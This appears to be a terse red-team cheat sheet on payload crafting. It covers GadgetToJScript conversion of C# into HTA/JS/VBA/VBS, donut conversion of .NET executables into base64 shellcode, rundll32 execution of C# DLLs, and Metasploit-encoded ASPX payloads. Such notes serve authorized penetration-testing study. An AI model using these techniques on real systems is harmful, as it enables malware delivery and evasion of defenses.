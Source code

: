 * hta + vba will be in ``32bit``
* There is x64 office just like  there is x64 windows xp ...

* Rundll32 with C# dll (https://blog.xpnsec.com/rundll32-your-dotnet/)
  * Rundll32 will require DLL_PROCESS_ATTACH to return
  * Ruldll32 will auto exit if entry point function exit 

```
ildasm.exe /out:TestUnmanaged.il CSharpDll.dll
ilasm.exe TestUnmanaged.il /DLL /output=TestUnamanged.dll /x64
```


* launch c# dll from c++ dll
```
HMODULE managedDLL = LoadLibraryA(targetedDll);
TestMethod managedMethod = (TestMethod)GetProcAddress(managedDLL, "MainFunc");
managedMethod();
```

* single cs file or c# dll to hta/js/vba/vbs
```
GadgetToJScript.exe -c test.cs -w [hta/js/vba/vbs]
GadgetToJScript.exe -a test.dll -w [hta/js/vba/vbs]
```
* GadgetToJScript requirement
  * entry point class is the first one in cs file
    ```
    public class MainClass{
        public MainClass(){
            //code here
        }
    }
    ```
  *  

* Net exe to shellcode
  * ```
    donut.exe test.exe
    $filename = "C:\tools\donut\loader.bin"
    [system.Convert]::toBase64string([IO.File]::ReadAllBytes($filename)) | Clip
    ```

* Check if aspx
  * ```
    <%@ Page Language="C#" %><script runat="server"></script>
    ```

* can use msf + encoder for aspx payload (on workstation). 